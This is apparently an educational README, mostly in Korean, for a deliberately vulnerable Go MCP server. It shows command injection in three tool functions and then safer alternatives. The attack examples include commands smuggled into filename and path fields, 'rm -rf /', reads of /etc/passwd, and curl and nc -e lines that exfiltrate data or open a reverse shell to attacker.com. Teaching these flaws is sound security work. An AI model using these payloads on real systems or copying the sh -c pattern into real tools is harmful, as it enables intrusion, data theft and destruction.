 # Vulnerable MCP Server - Command Injection 예제 (Go)

## ⚠️ CRITICAL SECURITY WARNING ⚠️

**🚨 THIS SOFTWARE IS INTENTIONALLY VULNERABLE AND FOR EDUCATIONAL PURPOSES ONLY 🚨**

- ❌ **DO NOT USE IN PRODUCTION ENVIRONMENTS**
- ❌ **DO NOT USE ON SYSTEMS WITH REAL DATA**
- ❌ **DO NOT USE ON SYSTEMS ACCESSIBLE TO UNTRUSTED USERS**
- ✅ **USE ONLY IN ISOLATED, CONTROLLED ENVIRONMENTS**
- ✅ **USE ONLY FOR EDUCATIONAL AND TESTING PURPOSES**

**This software contains intentional Command Injection vulnerabilities for security education.**

## 개요

이 프로젝트는 Command Injection 취약점을 보여주는 교육용 MCP (Model Context Protocol) 서버입니다. 보안 취약점의 위험성을 이해하고 안전한 코딩 방법을 학습하기 위한 목적으로 제작되었습니다.

## 포함된 취약점

### 1. search_files 함수
```go
// 위험한 코드: 사용자 입력을 직접 shell 명령어에 삽입
command := fmt.Sprintf("find ./sandbox -name '%s' 2>/dev/null", filename)
cmd := exec.CommandContext(ctx, "sh", "-c", command)
output, err := cmd.CombinedOutput()
```

**취약점**: 사용자 입력이 직접 shell 명령어에 삽입됩니다.

**공격 예시**:
```
filename = "test.txt; rm -rf /"
filename = "test.txt && cat /etc/passwd"
filename = "test.txt | nc attacker.com 4444"
```

### 2. list_directory 함수
```go
// 위험한 코드: 사용자 입력을 직접 shell 명령어에 삽입
command := fmt.Sprintf("ls -la '%s' 2>/dev/null", path)
cmd := exec.CommandContext(ctx, "sh", "-c", command)
output, err := cmd.CombinedOutput()
```

**취약점**: 경로 입력이 직접 shell 명령어에 삽입됩니다.

**공격 예시**:
```
path = "/tmp; cat /etc/passwd"
path = "/tmp && whoami"
path = "/tmp | curl -X POST http://attacker.com/data -d @/etc/passwd"
```

### 3. execute_command 함수
```go
// 매우 위험한 코드: 사용자 입력을 그대로 shell에서 실행
cmd := exec.CommandContext(ctx, "sh", "-c", command)
output, err := cmd.CombinedOutput()
```

**취약점**: 사용자 입력을 그대로 shell에서 실행합니다. 가장 위험한 취약점입니다.

**공격 예시**:
```
command = "rm -rf /"
command = "curl -X POST http://attacker.com -d @/etc/passwd"
command = "nc -e /bin/bash attacker.com 4444"
```

## 실행 방법

1. Go 1.19 이상이 설치되어 있는지 확인하세요.

2. 의존성 설치:
```bash
go mod tidy
```

3. 서버 실행:
```bash
go run vulnerable_mcp_server.go
```

또는 바이너리로 빌드:
```bash
go build -o vulnerable_mcp_server vulnerable_mcp_server.go
./vulnerable_mcp_server
```

4. JSON-RPC 요청으로 도구 호출:
```json
{
  "jsonrpc": "2.0",
  "id": 1,
  "method": "tools/call",
  "params": {
    "name": "search_files",
    "arguments": {
      "filename": "test.txt"
    }
  }
}
```

## 안전한 대안

### 1. exec.Command에서 직접 인수 전달
```go
// 안전한 방법
cmd := exec.CommandContext(ctx, "find", "./sandbox", "-name", filename)
output, err := cmd.CombinedOutput()
```

### 2. 입력 검증 및 이스케이프
```go
import (
    "regexp"
    "fmt"
)

func validateFilename(filename string) error {
    // 파일명 검증
    matched, err := regexp.MatchString("^[a-zA-Z0-9._-]+$", filename)
    if err != nil || !matched {
        return fmt.Errorf("invalid filename")
    }
    return nil
}

// 사용 예시
func safeSearchFiles(filename string) (string, error) {
    if err := validateFilename(filename); err != nil {
        return "", err
    }
    
    // 안전한 명령어 실행
    cmd := exec.Command("find", "./sandbox", "-name", filename)
    output, err := cmd.CombinedOutput()
    return string(output), err
}
```

### 3. 허용된 명령어만 실행
```go
var allowedCommands = map[string]bool{
    "ls":   true,
    "find": true,
    "grep": true,
}

func executeSafeCommand(commandName string, args ...string) (string, error) {
    if !allowedCommands[commandName] {
        return "", fmt.Errorf("command not allowed: %s", commandName)
    }
    
    cmd := exec.Command(commandName, args...)
    output, err := cmd.CombinedOutput()
    return string(output), err
}
```

## 보안 모범 사례

1. **입력 검증**: 모든 사용자 입력을 검증하고 정제합니다.
2. **최소 권한 원칙**: 필요한 최소한의 권한만 부여합니다.
3. **화이트리스트**: 허용된 명령어나 패턴만 사용합니다.
4. **이스케이프**: 특수 문자를 적절히 이스케이프합니다.
5. **로그 기록**: 모든 명령어 실행을 로그에 기록합니다.

## 법적 고지

이 코드는 교육 목적으로만 제공됩니다. 악의적인 목적으로 사용하는 것은 불법이며, 저자는 그에 대한 책임을 지지 않습니다. 실제 시스템에서 테스트할 때는 격리된 환경에서만 수행하세요.

## 추가 학습 자료

- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [Go os/exec 보안 가이드](https://pkg.go.dev/os/exec#hdr-Security_considerations)
- [MCP 공식 문서](https://modelcontextprotocol.io/)






